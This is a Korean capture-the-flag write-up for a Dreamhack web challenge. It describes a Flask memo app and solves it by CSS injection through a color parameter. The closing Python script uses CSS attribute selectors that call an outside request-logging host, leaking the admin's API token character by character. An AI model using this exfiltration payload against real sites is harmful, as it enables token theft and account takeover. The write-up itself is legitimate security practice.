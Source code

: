 - `excute()` : 쿼리문과 파라미터를 받아 DB에서 데이터를 받아오는 메소드
- `token_generate()` : 8자리 소문자 알파벳으로 구성된 랜덤 문자열을 만들고 사용된 적이 없으면 토큰을 리턴
- `login_required()` : 세션과 세션의 아이디가 있으면 통과. 아니면 로그인 화면으로 이동
- `apikey_required()` : 요청 헤더의 apikey를 통해 DB에서 사용자를 찾고 요청의 uid와 같으면 통과
- `@app.teardown_appcontext` : 어플리케이션 컨텍스트 종료 시 실행되는 함수를 등록하는 데 사용하는 데코레이터
    - `close_connection()` : DB 연결 끊는 함수.
- `@app.context_processor` : 템플릿 렌더링시 자동으로 전달할 값을 지정하는 함수 등록하는 데 사용하는 데코레이터
    - `background_color()` : 요청에서 `color` 값을 가져오고 없으면 기본값인 white 사용. color = 색을 딕셔너리로 만들어서 리턴
- `/` : index.html 렌더링
- `/login` : username과 password를 받고 조회. 세션에 아이디와 username 등록 후 로그인
- `/logout` : 세션 삭제
- `/register` : username과 password를 받고 이미 있으면 등록 불가. 없는 경우 토큰을 만들고 해당 값을 DB에 저장
- `/mypage` : 세션의 uid를 통해 사용자를 찾고 해당 값에 맞게 mypage 렌더링
    - mypage.html : 사용자의 uid, username, token 값을 `input readonly` 에 넣음. 버튼을 클릭하면 토큰 값을 복사
- `/memo` : GET 방식은 세션을 통해 해당 메모 페이지를 렌더링. POST 방식은 세션 ID와 입력한 텍스트를 메모로 DB에 저장
- `/report` : POST 방식으로 path를 파라미터로 받음. 해당 path로 `check_url()` 실행
- `check_url()` : 관리자 계정으로 웹 드라이버를 통해 로그인
- `/api/me` : `apikey_required()` 를 실행 후 세션의 uid와 username을 알려줌
- `/api/memo` : `apikey_required()` 를 실행 후 세션의 uid로 메모를 가져옴. 리스트로 만들어서 출력
- Flag 값은 관리자의 메모장에 있음

mypage 부분에서 토큰 값이 노출된다는 점

check_url에서 관리자 계정으로 로그인한다는 점 

color 값을 통해 CSS Injection을 할 수 있다는 점  

관리자의 uid가 필요. 관리자의 uid를 통해 모든 메모장을 봐야 함

1. 관리자의 아이디와 비밀번호를 알아내서 메모페이지에 들어간다
2. 웹드라이버에서 /api/memo를 사용하여 리스트를 어디에 기록한다?
3. 관리자의 토큰을 알아내서 /api/memo를 실행한다 → 괜찮은 듯

웹드라이버를 통해 mypage 페이지 부분에서 color 값을 통해 토큰이 맞을 때 마다 스타일을 바꾸거나 공격용 서버에 응답하게 해야 함.

그 후 토큰을 알아내고 헤더에 API-KEY에 집어 넣고  /api/memo를 실행

응답하게 함. → 토큰을 알아낼 수 있음

개인용 서버가 없어서 github 블로그를 쓰려고 했는 데 정적인 페이지만 가능해서 동적으로 5초 뒤에 응답하는 건 불가능 하다고 한다. 

이게 웬 걸 드림핵 툴즈에서 응답을 받고 로그를 찍는 도구가 있었다.

### 풀이 과정

1. 다음과 같은 코드를 토큰이 나올 때까지 반복

```jsx
import requests, string
 
URL = "http://host1.dreamhack.games:20690/report"
curr= "gsupsof"

 
for token in string.ascii_lowercase: 
    data = {"path":"mypage?color=white;} input[id=InputApitoken][value^="+curr+token+"] {background: url(https://itdkonu.request.dreamhack.games/"+curr+token+");"}
    response = requests.post(URL, data=data)
    print(f"'{token}': Status {response.status_code}")
```
